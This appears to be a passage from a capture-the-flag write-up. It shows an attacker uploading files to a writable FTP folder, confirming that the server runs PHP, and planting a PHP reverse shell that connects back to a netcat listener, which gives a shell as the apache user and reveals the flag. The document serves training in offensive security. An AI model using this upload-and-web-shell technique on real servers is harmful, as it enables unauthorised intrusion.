 It looks like the folder might be writable. I tried uploading a file and it worked. I didn't know which language, if any, would be supported by the server. So I tried uploading a simple PHP file to see if it would be interpreted, or if the code would just be printed. 

```bash
cat test.php 
<?php
echo 'It works';
```

```bash
put test.php
local: test.php remote: test.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
24 bytes sent in 0.00 secs (40.4095 kB/s)
```

Uploading the file worked. Now I tried accessing it in a browser by going to http://target.com/test.php . The page showed me 'It works'. So that confirmed that PHP code was executed. 

To get a shell on the server, I uploaded the PHP reverse shell from `/usr/share/webshells/php/php-reverse-shell.php`, started a Netcat listener on my machine and navigated to http://target.com/php-reverse-shell.php .

```bash
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.30.1 35038
Linux ip-10-10-30-1 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:35:48 up  2:15,  0 users,  load average: 0.00, 0.00, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (896): Inappropriate ioctl for device
sh: no job control in this shell

sh-4.4$ whoami
whoami
apache

sh-4.4$ pwd
/
pwd

sh-4.4$ cd
cd

sh-4.4$ pwd
/usr/share/httpd
pwd

sh-4.4$ ls -l
ls -l
total 20
drwxr-xr-x. 3 root root 4096 Nov  8  2020 error
drwxr-xr-x. 3 root root 8192 Nov  8  2020 icons
drwxr-xr-x. 3 root root  140 Nov  8  2020 noindex
-rw-r--r--. 1 root root   38 Nov 17  2020 web.flag

sh-4.4$ cat web.flag
cat web.flag
WEB FLAG
```
